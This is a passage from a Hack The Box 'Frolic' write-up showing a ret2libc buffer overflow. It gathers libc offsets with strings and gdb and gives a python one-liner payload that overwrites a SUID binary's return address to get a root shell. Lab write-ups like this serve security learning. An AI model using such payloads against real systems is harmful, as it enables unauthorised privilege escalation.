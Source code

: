 ```bash
#     -t radix, --radix=radix
# - Print the offset within the file before each string.  The single character argument specifies the radix of the offset ---o for octal, x for hexadecimal, or d for decimal.

strings -a -t x /lib/i386-linux-gnu/libc.6 | grep "/bin/sh"
#    --> 15ba0b /bin/sh          Offset
```

> **Attacker Machine:**

```bash
gdb ./rop
  /> p 0xb7e19000 + 0x0003ada0
  /> p 0xb7e19000 + 0x0002e9d0
  /> p 0xb7e19000 + 0x15ba0b
```

<br />
<img src="{{ site.img_path }}/frolic_writeup/Frolic_80.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/frolic_writeup/Frolic_81.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/frolic_writeup/Frolic_82.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/frolic_writeup/Frolic_83.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

Now that I have all the information I need, I can overwrite the return address to make a **`jump`** to a function that I specify in my payload (**`system`**) and also pass the argument (**`/bin/sh`**). I run the command and pass the string with the exact amount to fill the buffer and then the addresses in **Little Endian** format and so I get a shell as the `root` user. I managed to escalate privileges and I can access the last flag.

```bash
./rop $(python -c 'print("a"*52 + "\xa0\x3d\xe5\xb7" + "\xd0\x79\xe4\xb7" + "\x0b\x4a\xf7\xb7")')
# :):)
```

<br />
<img src="{{ site.img_path }}/frolic_writeup/Frolic_84.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

> Box finished, but the concepts need to be strengthened with more practice, so I am looking for a new challenge in the **[Hack The Box](https://www.hackthebox.com){:target="_blank"}** platform to perform another **Buffer Overflow** lab, it is a somewhat complex subject but I find it fascinating, and when they go up the level of difficulty is much more even more.  I do not forget to kill the box from the website.

<br /><br />
<img src="{{ site.img_path }}/frolic_writeup/Frolic_85.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
